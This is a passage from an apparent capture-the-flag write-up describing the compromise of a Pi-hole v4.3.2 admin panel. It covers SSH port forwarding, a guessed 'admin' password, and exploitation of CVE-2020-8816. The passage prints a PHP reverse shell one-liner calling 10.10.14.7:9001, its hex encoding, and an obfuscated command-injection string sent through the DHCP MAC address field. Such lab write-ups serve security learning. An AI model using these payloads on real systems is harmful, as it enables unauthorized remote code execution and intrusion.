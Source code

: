 Forwarding port 80 on 172.31.11.3 to my local client:
```
ssh -L 80:172.31.11.3:80 bryan@10.10.10.200
```

Now the **Pi-hole** interface is accessible on our localhost on port 80, but it does not display everything correctly.
In the HTML source it says that it accesses the hostname _pi.hole_, which has to be put into the _/etc/hosts_ file:
```
127.0.0.1   pi.hole
```

The dashboard is successfully displayed when browsing to _pi.hole_.
By guessing some passwords, the password _admin_ logs us in to the platform.

The footer on the web page shows that it runs _Pi-hole v4.3.2-0_, so maybe there are public vulnerabilities for this version:
```
searchsploit pi-hole

Pi-hole < 4.4 - Authenticated Remote Code Execution / Privileges Escalation
```

The vulnerability is explained in [this blog article](https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/) and has a payload that I will use.

Reverse shell command from the blog post:
```
echo php -r '$sock=fsockopen("10.10.14.7",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Using [CyberChef](https://gchq.github.io/CyberChef/) to encode the reverse shell command to hex:
```
706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e37222c39303031293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27
```

Replacing hex from blog post with own payload:
```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e37222c39303031293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
```

Executing the command by sending it in the _MAC address field_ in the settings of **Pi-hole**:
```
Settings --> DHCP
```

![Paylod in MAC address field](unbalanced_web-2.png)

